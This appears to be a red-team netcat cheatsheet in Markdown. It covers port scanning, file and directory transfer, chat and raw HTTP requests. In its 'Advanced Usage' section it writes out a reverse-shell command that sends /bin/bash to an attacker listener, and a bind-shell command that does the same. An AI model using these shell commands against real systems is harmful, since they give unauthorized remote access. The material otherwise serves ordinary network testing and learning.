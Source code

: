 #Tool #RED 
# Netcat Cheatsheet 🐾📡

Welcome to the **Netcat Cheatsheet**! Netcat (often called the “Swiss Army knife” of networking) is a versatile tool for network debugging, testing, and exploration. This guide will help you master Netcat like a networking wizard. 🧙‍♂️✨

---

## 🌟 Most Commonly Used Command
```bash
nc -nvlp *.*.*.*
```
Set up a listener with numeric IPs, verbose output, and a specified port.

---

## 🌟 What is Netcat?
**Netcat (nc)** is a powerful networking utility for reading and writing data across networks. It's used for:
- Debugging and testing network connections.
- File transfers.
- Port scanning.
- Setting up reverse shells and backdoors.

### 🛠 Features:
- Connect to and listen on TCP/UDP ports.
- Transfer files between systems.
- Perform port scanning.
- Support for scripting and automation.

---

## 🧰 Common Commands

### 🔍 Basic Port Scanning
```bash
nc -zv 192.168.1.1 20-80
```
Scan ports 20 to 80 on a target host.

### 📡 Establish a TCP Connection
```bash
nc 192.168.1.1 80
```
Connect to port 80 on the target host.

### 🛠 Listen for Incoming Connections
```bash
nc -l -p 1234
```
Set up a listener on port 1234.

### 🔄 File Transfer (Send)
```bash
nc -w 3 192.168.1.2 1234 < file.txt
```
Send a file to a listener.

### 🔄 File Transfer (Receive)
```bash
nc -l -p 1234 > file.txt
```
Receive a file sent to a listener.

---

## ⚙️ Advanced Usage

### 🌐 Create a Reverse Shell
#### Listener (on Attacker Machine):
```bash
nc -l -p 4444
```
#### Target Machine:
```bash
nc 192.168.1.10 4444 -e /bin/bash
```
Establish a reverse shell to the attacker machine.

### 🖥️ Create a Bind Shell
#### Target Machine:
```bash
nc -l -p 5555 -e /bin/bash
```
#### Attacker Machine:
```bash
nc 192.168.1.20 5555
```
Connect to the bind shell on the target machine.

### 📜 HTTP Requests
```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80
```
Manually send an HTTP GET request to a web server.

### 🛡️ Transfer Directories
#### On Sending Machine:
```bash
tar -czf - /path/to/dir | nc -w 3 192.168.1.2 1234
```
#### On Receiving Machine:
```bash
nc -l -p 1234 | tar -xzf -
```
Transfer an entire directory over the network.

---

## 📋 Handy Options

| Option        | Description                                     |
|---------------|-------------------------------------------------|
| `-l`          | Listen for incoming connections                 |
| `-p`          | Specify the local port to use                  |
| `-z`          | Perform a port scan without sending data       |
| `-v`          | Enable verbose mode                            |
| `-e`          | Execute a command after connection             |
| `-w`          | Set a timeout for connections (in seconds)     |
| `-u`          | Use UDP instead of TCP                         |

---

## 🌐 Example Scenarios

### Scenario 1: Simple Chat Between Two Machines
#### Machine A:
```bash
nc -l -p 5678
```
#### Machine B:
```bash
nc 192.168.1.5 5678
```

### Scenario 2: Copy Files Across Hosts
#### Sender:
```bash
nc -w 3 192.168.1.2 1234 < secret.zip
```
#### Receiver:
```bash
nc -l -p 1234 > secret.zip
```

### Scenario 3: Basic TCP Port Scan
```bash
nc -zv 192.168.1.10 20-100
```

---

## 🚀 Pro Tips

### 1️⃣ Combine with Scripts
Use Netcat in scripts to automate testing and data collection.

### 2️⃣ Use with Sudo
Elevated permissions may be required for specific ports and operations.

### 3️⃣ Secure Connections
Netcat itself does not encrypt connections. For secure alternatives, consider tools like **Socat** or SSH.

---

## 📚 References
- [Netcat Official Documentation](https://manpages.ubuntu.com/manpages/bionic/man1/nc.1.html)
- [Network Basics Guide](https://en.wikipedia.org/wiki/Network_socket)

---

✨ **Copy, paste, and become a Netcat ninja!** ✨

